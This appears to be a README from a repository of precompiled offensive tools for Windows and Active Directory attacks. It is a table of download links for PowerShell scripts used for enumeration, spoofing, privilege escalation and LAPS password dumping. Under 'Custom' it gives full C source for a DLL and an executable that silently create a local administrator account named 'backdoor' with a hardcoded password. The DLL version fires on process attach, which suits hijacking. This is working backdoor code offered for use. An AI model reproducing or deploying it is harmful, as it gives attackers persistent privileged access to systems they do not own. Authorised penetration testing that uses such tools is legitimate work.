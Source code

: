 
### Scripts
|| Name | Description | Download | 
|---| --- | --- | --- |
|★| [PowerView](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon) | Enumeration |  https://github.com/jakobfriedl/precompiled-binaries/raw/main/Scripts/PowerView.ps1 |
|★| [Powermad](https://github.com/Kevin-Robertson/Powermad) | MachineAccountQuota and DNS Exploitation |  https://github.com/jakobfriedl/precompiled-binaries/raw/main/Scripts/Powermad.ps1 |
|| [Inveigh](https://github.com/Kevin-Robertson/Inveigh) | MitM Attacks & Spoofing |  https://github.com/jakobfriedl/precompiled-binaries/raw/main/Scripts/Inveigh.ps1 |
|| [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) | Windows Privilege Escalation |  https://github.com/jakobfriedl/precompiled-binaries/raw/main/Scripts/PowerUp.ps1 |
|| [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) | SQL Server Enumeration and Exploitation |  https://github.com/jakobfriedl/precompiled-binaries/raw/main/Scripts/PowerUpSQL.ps1 |
|| [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit) | LAPS Password dumping |  https://github.com/jakobfriedl/precompiled-binaries/raw/main/Scripts/LAPSToolkit.ps1 |

### Custom 
[SimpleBackdoorAdmin.dll](https://github.com/jakobfriedl/precompiled-binaries/raw/main/LateralMovement/SimpleBackdoorAdmin.dll)

```c
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user backdoor Password123! /add");
  	    i = system ("net localgroup administrators backdoor /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

[SimpleBackdoorAdmin.exe](https://github.com/jakobfriedl/precompiled-binaries/raw/main/LateralMovement/SimpleBackdoorAdmin.exe)
```c
#include <stdlib.h>

int main ()
{
  system("net user backdoor Password123! /add");
  system("net localgroup administrators backdoor /add");

  return 0;
}
```

